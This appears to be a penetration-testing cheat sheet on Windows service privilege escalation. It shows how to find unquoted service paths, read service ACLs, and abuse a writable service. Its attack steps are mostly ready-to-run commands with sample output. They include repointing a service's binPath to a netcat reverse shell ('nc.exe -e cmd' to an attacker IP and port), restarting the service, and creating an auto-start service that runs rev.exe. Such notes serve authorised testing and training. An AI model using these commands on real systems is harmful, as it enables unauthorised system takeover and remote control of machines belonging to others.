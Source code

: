 ```yaml
---
title: "Windows Services"
date: 2024-7-13
tags: ["Server Operators", "Active Directory", "Windows", "Privilege Escalation", "Services", "Reverse Shell", "Unquoted Service Path"]
---
```


### Check unquoted service path

```console
cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
```

```console {class="sample-code"}
PS C:\Users\user1> cmd.exe /c 'wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """'
WC Assistant    WCAssistantService    C:\Program Files (x86)\Lavasoft\Web Companion\Application\Lavasoft.WCAssistant.WinService.exe    Auto 
```

### Check service ACLs

```console
. .\Get-ServiceAcl
```

```console
"<SERVICE>" | Get-ServiceAcl | Select -ExpandProperty Access
```

```console {class="sample-code"}
PS > "SomeService" | Get-ServiceAcl | select -ExpandProperty Access

...[SNIP]...

ServiceRights     : QueryConfig, ChangeConfig, QueryStatus, EnumerateDependents, Start, Stop, Interrogate, ReadControl
AccessControlType : AccessAllowed
IdentityReference : COMPUTER-MS01\user
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None

...[SNIP]...
```

<small>*Ref: [Get-ServiceAcl.ps1](https://raw.githubusercontent.com/Sambal0x/tools/refs/heads/master/Get-ServiceAcl.ps1)*</small>

### Abuse #1: Change service path

#### 1. Change service path

```console
# Assume nc.exe is uploaded
sc.exe config <SERVICE> binPath= "C:\ProgramData\nc.exe -e cmd.exe <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe config VSS binpath="C:\windows\tasks\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

### Additional: Create service

```console
# Create a service
sc.exe create <NEW_SERVICE> binpath= C:\ProgramData\rev.exe start= auto
```

<small>*Note: there is a space after named arguments*</small>